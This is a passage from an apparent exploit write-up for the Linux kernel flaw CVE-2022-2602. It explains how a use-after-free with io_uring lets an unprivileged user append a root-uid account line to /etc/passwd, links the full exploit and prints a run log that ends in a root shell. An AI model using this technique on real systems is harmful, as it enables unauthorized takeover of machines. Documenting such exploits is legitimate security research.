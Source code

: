 ### Release the slow_write lock
Now that we have replaced the victim chunk with a specific file, when the slow write operation finishes, the lock is released and the io_uring kernel thread acquires the lock and starts writing into our re-allocated file ("/etc/passwd"), also if it's allocated as read-only.

### Overwrite /etc/passwd
First, in order to just append text into "/etc/passwd" and not overwrite it from scratch, our victim file (the one that we have used as the victim chunk in our Use-After-Free) has been opened with the `O_APPEND` flag, that append text at the end of the file.
What can we write into it? We can write a simple user using the following format, that will not require the password into ""/etc/shadow":
```bash
<USER>:<HASH>:0:0:/root:/root:/bin/sh
```

### POC || GTFO
You can find the full exploit here: https://github.com/kiks7/CVE-2022-2602-Kernel-Exploit.

```bash
/ $ uname -a
Linux (none) 5.15.74 #20 SMP Sat Nov 19 14:01:51 CET 2022 x86_64 GNU/Linux
/ $ cat /etc/passwd
root:x:0:0:root:/root:/bin/sh
user:x:1000:1000:kiks,,,:/home/user:/bin/sh
/ $ id
uid=1000(user) gid=1000 groups=1000
/ $ /poc
[P] P1
[P] P2
[*] Creating thread for slow write on /tmp/rwA
[*] Sleeping while waiting that slow_write starts ..
[*][T1] Starting slow write ..
[*][T1] Slowing write...
[P] P3/P4
[P] P5
[*] Triggering unix_gc and freeing the registered fd
[*] unix_gc finished !
[P] P6
[*] Spraying target files ..
[*] Wait that slow_write finishes ..
[P] P7/P8/P9
[+][T1] slow_write finished
[+] Slow write finished .. closing io_uring fd
[*] Waits that the io_uring thread continues the writev operation while the process is still alive
[+] Everything done !
Password:
uid=0(root) gid=0 groups=0
[+] DONE
/ $ cat /etc/passwd
root:x:0:0:root:/root:/bin/sh
user:x:1000:1000:kiks,,,:/home/user:/bin/sh
pwn:$6$pwn$5m1zBfEzD3xCg.wOtCtlKePwQL3Y5UiVAQBEAIv67Ir9JfZjmjO7XwzMzk0IcRoPjtWg.k2ytbimpKp1s/RB2/:0:0:/root:/root:/bin/sh
/ $
```

